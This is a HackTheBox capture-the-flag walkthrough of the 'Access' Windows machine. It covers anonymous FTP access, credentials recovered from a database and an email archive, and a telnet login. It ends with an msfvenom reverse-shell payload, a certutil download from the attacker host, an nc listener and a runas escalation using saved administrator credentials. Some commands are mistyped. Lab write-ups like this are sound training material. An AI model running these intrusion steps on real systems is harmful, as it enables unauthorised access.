 # Access [htb](https://app.hackthebox.com/machines/Access)
![Access-01](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Access/img/acess-01.png)


## Recon

Before we start enumeration, let's add the target to our `/etc/hosts` file:
![hosts-02](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Access/img/hosts-02.png)


Running nmap:

`nmap -sC -sV -p- -A access.htb -oN nmap.result`

![nmap-res-03](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Access/img/nmap-res-03.png)


We have the following:

+ FTP on port 21 (appears to permit anonymous logins).
+ Telnet on port 23. 
+ An IIS v7.5 server on port 80. 


We should start with the FTP server and see if we can find interesting information, or maybe 
misconfiguration of privileges. We then should take a look at the IIS server, and finally telnet 
at the end if we get stuck. 



### FTP 21

Let's login anonymously with `anonymous : anonymous`: 

![anon-ftp-04](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Access/img/anon-ftp-04.png)


We have two folders: 
+ Backups
+ Engineer


Lets cd into `Backups` and see what we can find: 

![ftp-backups-05](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Access/img/ftp-backups-05.png)


Looks like we have an `.mdb` database here. Lets switch to binary mode and get this to our kali. 

![get-db-06](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Access/img/get-db-06.png)


We can open this type of database [online](https://www.mdbopener.com/): 

![open-db-07](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Access/img/open-db-07.png)


we get a list of all the tables in the database, and we can view them online. Iv'e found a couple
of interesting tabels. Primarly: 

+ auth_user - This is the user table with clear-text credentials. 

![auth-user-08](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Access/img/auth-user-08.png)

+ action_log - Stores action performed by the admin when setting up the database. 
+ USERINFO   - Inforamtion about users. 
+ auth_group - An administration group name and permissions. 

 
The `auth-user` is of most interest to us, we should try to use these credentials on the IIS 
server. But before we do that, there was another folder on the FTP, `Engineer`, 
and we have a user named engineer in the db. Lets see what we can find. 

![engineer-ftp-09](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Access/img/engineer-ftp-09.png)

Looks important. Lets put this on our Kali: 

![get-acl-10](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Access/img/get-acl-10.png)


If we examine the file with `file access_control.zip` (i renamed it): 

![file-acl-11](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Access/img/file-acl-11.png)


We can see it's an AES encrypted ZIP archive. You can try to use `zip2john`, then crack it with 
`john` but that wont work. we have the credentials for this archive. 

Use `7za` to decompress the arachive: 

`7za e access_control.zip`


![extract-12](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Access/img/extract-12.png)


This gives us a `.pst` file (personal storage table), which is a file format Microsoft programs 
use to store items like calendar events, contacts, and email messages. PST files are stored 
within popular Microsoft software like `Microsoft Exchange`, `Windows Messaging`, 
and `Microsoft Outlook`.

We can open `.pst` files on Kali using `readpst`: 

`apt install pst-utils`


Then read the file with `readpst acl.pst` (renamed the file). 

![readpst-13](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Access/img/readpst-13.png)


This outputs an `.mbox` file we can read on Unix with `less acl.mbox`:

![mail-14](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Access/img/mail-14.png)


We found another user account, this time for a uyser named "security". This user didnt show 
up in the `auth-user` table from before. Lets take a look at the web-sever. 



### IIS 80

If we open our browser and navigate towards `http://access.htb/` we get the following page:

![site-15](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Access/img/site-15.png)

Not much to do here, Lets try directory busting with: 

`ffuf -w /usr/share/wordlists/seclists/SecLists-master/Discovery/Web-Content/directory-list-2.3-medium.txt:FUZZ -u http://access.htb/FUZZ`


Nothing comes up. The site is empty, lets try the telnet. 


### Telnet 23

If we connect to the server with `telnet access.htb`, and wait just a sec... we will be prompted
for credentials: 

![shell-16](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Access/img/shell-16.png)

Use the credetials we got from the email `security : `4Cc3ssC0ntr0ller`.  
Lets move to priv esc. 



## Privilege Escalation

If we list out our user privileges: 

![privs-17](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Access/img/privs-17.png)


Nothing interesting comes out. If we list out `systeminfo` : 

![sysinfo-18](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Access/img/sysinfo-18png.png)

We can see wer'e running a 2008 server V6.1.7600. We can check exploits but there is a faster way.
Lets search for stored credentials with `cmdkey /list`

![creds-19](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Access/img/creds-19.png)


We can now use `runas` to take the admins passwords and run a reverse shell payload.

+ First we need some venom: 

`msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.14.68 LPORT=9009 -f exe > rshell.exe`

![venom-20](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Access/img/venom-20.png)


+ Start a python server with:

`python3 -m htp.server 80`


+ Download the shellcode to the target with:

`ertutil -urlcache -f http://10.10.14.68/rshell.exe rshell.exe`


+ Start the listner with: 

`nc -lnvp 9009`


+ Exeecute the payload as Administrator:

`runas /savecred /user:ACCESS\Administrator "C:\\Users\security\rshell.exe"`


+ Get a shell:

![root-20](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Access/img/root-20.png)
